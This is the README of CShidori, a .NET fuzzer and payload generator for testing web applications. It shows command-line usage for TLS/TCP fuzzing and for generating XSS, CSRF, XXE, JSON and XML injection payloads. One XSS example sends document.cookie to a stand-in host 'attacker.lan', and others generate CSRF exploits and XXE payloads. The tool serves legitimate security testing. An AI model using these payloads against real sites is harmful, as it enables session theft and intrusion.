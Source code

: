 # CShidori

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
![.DOTNET](https://github.com/Aif4thah/CShidori/actions/workflows/dotnet.yml/badge.svg?branch=main)
[![HitCount](https://hits.dwyl.com/Aif4thah/CShidori.svg?style=flat-square)](http://hits.dwyl.com/Aif4thah/CShidori)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (fr)](https://github.com/Aif4thah/SIMPLE)

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* OWASP Web Application Security Testing Guide: [C-Fuzz Vectors](https://owasp.org/www-project-web-security-testing-guide/v41/6-Appendix/C-Fuzz_Vectors#replacive-fuzzing)

## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning

* CShidori learns and tries to detect vulnerabilities from your fuzzing history
* ML is not miraculous thing, you have to train it for your Apps ;)

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

put your request in a text file*: 

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

### TCP Sockets

put your request in a text*

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```

#### *how put my request in a file ? 
	
	* from ZAP or Burp: right click > copy to file
	* for Chrome: F12 > Network > your request / paylod > view source, copy-past in text file, with a line between request and payload, and "\n" + a new line at the end of the file


### Analyse logs

use the `Import-Csv` cmdlet or the `.\CShidoriLogsViewer.ps1` script. 
You can then parse the logs as powershell objects.

```powershell
. .\CShidoriLogsViewer.ps1
Get-CShidoriLogs .\127-0-0-1-b4e09da3-7e34-46f2-9ce9-6f8b1d3a3019.csv -ResponseMatch "bad" -ExcludeSize 295 -debug   
```

### Go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```
### Speed

1 thread = 70-90 req/s

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
